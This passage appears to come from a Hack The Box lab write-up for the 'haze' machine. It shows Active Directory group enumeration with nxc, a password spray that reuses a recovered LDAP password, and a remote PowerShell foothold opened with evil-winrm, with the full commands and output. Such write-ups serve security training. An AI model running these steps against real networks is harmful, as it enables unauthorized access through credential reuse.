 `nxc` displayed the group members for `Remote Management Users`.
```
fcoomans@kali:~/htb/haze$ nxc ldap dc01.haze.htb -u "paul.taylor" -p 'Ld@p_Auth_Sp1unk@2k24' --groups "Remote Management Users"
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.10.11.61     389    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24
LDAP        10.10.11.61     389    DC01             Edward Martin
LDAP        10.10.11.61     389    DC01             Mark Adams
```

The username format is `name.surname`.  The two users were added to the `users.txt` file and a password spray was performed using `paul.taylor`'s password.
The password is re-used for user `mark.adams`.
```
fcoomans@kali:~/htb/haze$ cat users.txt
edward.martin
mark.adams

fcoomans@kali:~/htb/haze$ nxc ldap dc01.haze.htb -u users.txt -p 'Ld@p_Auth_Sp1unk@2k24'
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.10.11.61     389    DC01             [-] haze.htb\edward.martin:Ld@p_Auth_Sp1unk@2k24
LDAP        10.10.11.61     389    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24
```

![](images/Pasted%20image%2020250628091158.png)

`evil-winrm` was used with `mark.adams`'s credentials to gain a foothold on the target.
```
fcoomans@kali:~/htb/haze$ evil-winrm -i dc01.haze.htb -u mark.adams -p Ld@p_Auth_Sp1unk@2k24

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mark.adams\Documents> whoami
haze\mark.adams
*Evil-WinRM* PS C:\Users\mark.adams\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 10.10.11.61
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : 10.10.10.2
```

